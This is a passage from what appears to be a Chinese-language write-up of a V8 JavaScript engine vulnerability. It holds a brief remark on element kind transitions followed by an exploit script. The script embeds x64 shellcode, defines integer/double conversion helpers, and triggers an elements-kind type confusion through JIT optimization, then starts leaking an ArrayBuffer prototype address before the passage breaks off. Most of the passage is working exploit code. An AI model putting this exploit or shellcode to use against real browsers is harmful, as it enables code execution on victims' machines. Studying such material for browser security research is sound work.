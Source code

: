 
补充一个：

Element kind transitions是通过调用ReduceElementAccess，然后依次调用ComputeElementAccessInfos

### exp

```
<script>
var shellcode = [0xe48348fc,0x00c0e8f0,0x51410000,0x51525041,0xd2314856,0x528b4865,0x528b4860,0x528b4818,0x728b4820,0xb70f4850,0x314d4a4a,0xc03148c9,0x7c613cac,0x41202c02,0x410dc9c1,0xede2c101,0x48514152,0x8b20528b,0x01483c42,0x88808bd0,0x48000000,0x6774c085,0x50d00148,0x4418488b,0x4920408b,0x56e3d001,0x41c9ff48,0x4888348b,0x314dd601,0xc03148c9,0xc9c141ac,0xc101410d,0xf175e038,0x244c034c,0xd1394508,0x4458d875,0x4924408b,0x4166d001,0x44480c8b,0x491c408b,0x8b41d001,0x01488804,0x415841d0,0x5a595e58,0x59415841,0x83485a41,0x524120ec,0x4158e0ff,0x8b485a59,0xff57e912,0x485dffff,0x000001ba,0x00000000,0x8d8d4800,0x00000101,0x8b31ba41,0xd5ff876f,0xa2b5f0bb,0xa6ba4156,0xff9dbd95,0xc48348d5,0x7c063c28,0xe0fb800a,0x47bb0575,0x6a6f7213,0x89415900,0x63d5ffda,0x00636c61]
var arraybuffer = new ArrayBuffer(20);
flag = 0;
function gc(){
    for(var i=0;i<0x100000/0x10;i++){
        new String;
    }
}
function d2u(num1,num2){
    d = new Uint32Array(2);
    d[0] = num2;
    d[1] = num1;
    f = new Float64Array(d.buffer);
    return f[0];
}
function u2d(num){
    f = new Float64Array(1);
    f[0] = num;
    d = new Uint32Array(f.buffer);
    return d[1] * 0x100000000 + d[0];
}
function change_to_float(intarr,floatarr){
    var j = 0;
    for(var i = 0;i < intarr.length;i = i+2){
        var re = d2u(intarr[i+1],intarr[i]);
        floatarr[j] = re;
        j++;
    }
}
function change_elements_kind_array(a){
	a[0] = Array;
}
optimizer3 = new Array({});
optimizer3.x3 = {};
change_elements_kind_array(optimizer3);
map_manipulator3 = new Array(1.1,2.2);
map_manipulator3.x3 = 0x123;
change_elements_kind_array(map_manipulator3);
map_manipulator3.x3 = {};
evil3 = new Array(1.1,2.2);
evil3.x3 = {};
for(var i = 0;i<0x100000;i++){
	change_elements_kind_array(optimizer3);
}
/******************************* step 1    read ArrayBuffer __proto__ address   ***************************************/
function change_elements_kind_parameter(a,obj){
	arguments;
	a[0] = obj;
```